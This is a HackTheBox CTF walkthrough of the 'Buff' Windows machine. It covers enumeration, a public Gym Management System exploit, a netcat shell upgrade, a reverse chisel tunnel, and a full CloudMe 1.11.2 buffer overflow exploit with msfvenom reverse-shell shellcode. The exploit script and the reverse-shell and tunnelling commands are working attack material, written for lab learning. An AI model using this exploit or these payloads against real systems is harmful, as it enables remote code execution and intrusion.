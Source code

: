 ```yaml
---
title: HackTheBox - Buff
date: 2021-10-18 00:49:17 +0100
categories: [Hackthebox walkthroughs, Windows, Easy]
tags: [Gym Management System, searchsploit, nc.exe, port forwarding, chisel, buffer overflow, pwn, msfvenom, shellcode, htb-windows-easy, writeup, oscp-prep]
image: /assets/img/htb/machines/windows/easy/buff/Buff.jpeg
---
```


Buff is a very nice OSCP style box, where I have to identify the web software running on the site, and exploit it using public exploits to get execution via webshell. For privesc, I'll find another service I can exploit using public exploits. I'm going to build with my own shell code to create my own shell, and set up the service so that I can connect just by listening on localhost. From there, the exploit script returns an administrator's shell. In Beyond Root, I'll go through the first script and do the exploit manually, and see how Defender blocks some of my attempts

## Enumeration

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Buff-full-port-scan.txt 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up (0.18s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
```

### Port 8080 (HTTP)

![Desktop View](/assets/img/htb/machines/windows/easy/buff/8080.png)

Visiting port 8080 shows us a web page about fitness.

![Desktop View](/assets/img/htb/machines/windows/easy/buff/contact.png)

The `/contact.php` page discloses that Gym Management Software is being used.

![Desktop View](/assets/img/htb/machines/windows/easy/buff/searchsploit.png)

Using `searchsploit` we identified a potential exploit.

## Foothold

The exploit mimics a shell and allows us to send remote command.

![Desktop View](/assets/img/htb/machines/windows/easy/buff/exploit.png)

We can upgrade our shell to a more stable shell by uploading `nc.exe` and executing it:

```bash
$ locate nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-resources/binaries/nc.exe
$ cp /usr/share/windows-resources/binaries/nc.exe .
```

![Desktop View](/assets/img/htb/machines/windows/easy/buff/more_stable_shell.png)

![Desktop View](/assets/img/htb/machines/windows/easy/buff/nc.png)

## Privesc

Using `winPEAS` we can see that there is an app called `CloudMe` which is running on local port **8888** but is not running on remote port.

![Desktop View](/assets/img/htb/machines/windows/easy/buff/cloudme_tcp.png)

Plus, if we look at `C:\Users\shaun\Downloads\`, we can find a binary file called `CloudMe_1112.exe`:

```powershell
PS C:\Users\shaun\Downloads> dir
dir


    Directory: C:\Users\shaun\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe  
```

In order to transfer it to our local machine, we can take advantage of the current web server:

```cmd
C:\Users\shaun\Downloads>copy CloudMe_1112.exe C:\xampp\htdocs\gym\                                                                                 
copy CloudMe_1112.exe C:\xampp\htdocs\gym\
        1 file(s) copied.
```

> **Note**: following [**Stack-Based Buffer Overflows on Windows x86** course on Academy](https://academy.hackthebox.eu/course/preview/stack-based-buffer-overflows-on-windows-x86) will guide you on writing an exploit for this program.

### Port forwarding with `chisel`

`CloudMe` is listening only on localhost.

If we want to make this port available to our machine, we can use a **SOCKS proxy** such as `Chisel`. Go to the [release page](https://github.com/jpillora/chisel/releases) and download the last executables for windows and linux amd64.

- First, on our Kali machine, we have to set up the Chisel server, listening on any port (here 9999):

    ```bash
    $ /chisel_1.7.6_linux_amd64 server -p 9999 --reverse
    2021/09/07 00:09:35 server: Reverse tunnelling enabled
    2021/09/07 00:09:35 server: Fingerprint EFwUZIpNMK9gCrrI3aubBlSlDShKhEzk0ophq0C08S4=
    2021/09/07 00:09:35 server: Listening on http://0.0.0.0:9999
    ```

- Then, on the target machine, tunel the port 8888 to our machine:

    ```cmd
    C:\>.\chisel.exe client 10.10.14.12:9999 R:8888:127.0.0.1:8888
    .\chisel.exe client 10.10.14.12:9999 R:8888:127.0.0.1:8888
    2021/09/06 23:17:24 client: Connecting to ws://10.10.14.12:9999
    2021/09/06 23:17:26 client: Connected (Latency 188.0315ms)
    ```

### Exploitation

Looking for `CloudMe` with `searchsploit`, we can find multiple exploits:

![Desktop View](/assets/img/htb/machines/windows/easy/buff/cloud_me_exploits.png)

The first one will worked just fine but we have to replace the shellcode. `msfvenom` can help us to do that:

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=$(vpnip) LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python --var-name payload
```

Then we can edit the exploit source file as follows:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket
import sys

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

# msfvenom -p windows/shell_reverse_tcp LHOST=$(vpnip) LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python --var-name payload
payload =  b""
payload += b"\xb8\x45\x01\x16\x38\xd9\xed\xd9\x74\x24\xf4\x5f"
payload += b"\x33\xc9\xb1\x52\x83\xef\xfc\x31\x47\x0e\x03\x02"
payload += b"\x0f\xf4\xcd\x70\xe7\x7a\x2d\x88\xf8\x1a\xa7\x6d"
payload += b"\xc9\x1a\xd3\xe6\x7a\xab\x97\xaa\x76\x40\xf5\x5e"
payload += b"\x0c\x24\xd2\x51\xa5\x83\x04\x5c\x36\xbf\x75\xff"
payload += b"\xb4\xc2\xa9\xdf\x85\x0c\xbc\x1e\xc1\x71\x4d\x72"
payload += b"\x9a\xfe\xe0\x62\xaf\x4b\x39\x09\xe3\x5a\x39\xee"
payload += b"\xb4\x5d\x68\xa1\xcf\x07\xaa\x40\x03\x3c\xe3\x5a"
payload += b"\x40\x79\xbd\xd1\xb2\xf5\x3c\x33\x8b\xf6\x93\x7a"
payload += b"\x23\x05\xed\xbb\x84\xf6\x98\xb5\xf6\x8b\x9a\x02"
payload += b"\x84\x57\x2e\x90\x2e\x13\x88\x7c\xce\xf0\x4f\xf7"
payload += b"\xdc\xbd\x04\x5f\xc1\x40\xc8\xd4\xfd\xc9\xef\x3a"
payload += b"\x74\x89\xcb\x9e\xdc\x49\x75\x87\xb8\x3c\x8a\xd7"
payload += b"\x62\xe0\x2e\x9c\x8f\xf5\x42\xff\xc7\x3a\x6f\xff"
payload += b"\x17\x55\xf8\x8c\x25\xfa\x52\x1a\x06\x73\x7d\xdd"
payload += b"\x69\xae\x39\x71\x94\x51\x3a\x58\x53\x05\x6a\xf2"
payload += b"\x72\x26\xe1\x02\x7a\xf3\xa6\x52\xd4\xac\x06\x02"
payload += b"\x94\x1c\xef\x48\x1b\x42\x0f\x73\xf1\xeb\xba\x8e"
payload += b"\x92\x19\x31\x9e\x6e\x76\x47\x9e\x7f\xda\xce\x78"
payload += b"\x15\xf2\x86\xd3\x82\x6b\x83\xaf\x33\x73\x19\xca"
payload += b"\x74\xff\xae\x2b\x3a\x08\xda\x3f\xab\xf8\x91\x1d"
payload += b"\x7a\x06\x0c\x09\xe0\x95\xcb\xc9\x6f\x86\x43\x9e"
payload += b"\x38\x78\x9a\x4a\xd5\x23\x34\x68\x24\xb5\x7f\x28"
payload += b"\xf3\x06\x81\xb1\x76\x32\xa5\xa1\x4e\xbb\xe1\x95"
payload += b"\x1e\xea\xbf\x43\xd9\x44\x0e\x3d\xb3\x3b\xd8\xa9"
payload += b"\x42\x70\xdb\xaf\x4a\x5d\xad\x4f\xfa\x08\xe8\x70"
payload += b"\x33\xdd\xfc\x09\x29\x7d\x02\xc0\xe9\x9d\xe1\xc0"
payload += b"\x07\x36\xbc\x81\xa5\x5b\x3f\x7c\xe9\x65\xbc\x74"
payload += b"\x92\x91\xdc\xfd\x97\xde\x5a\xee\xe5\x4f\x0f\x10"
payload += b"\x59\x6f\x1a"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

We forwarded the port 8888 of the target on ou port 8888, now we just have to run the exploit:

![Desktop View](/assets/img/htb/machines/windows/easy/buff/flag.png)

___

## Useful links

- [Chisel](https://github.com/jpillora/chisel)
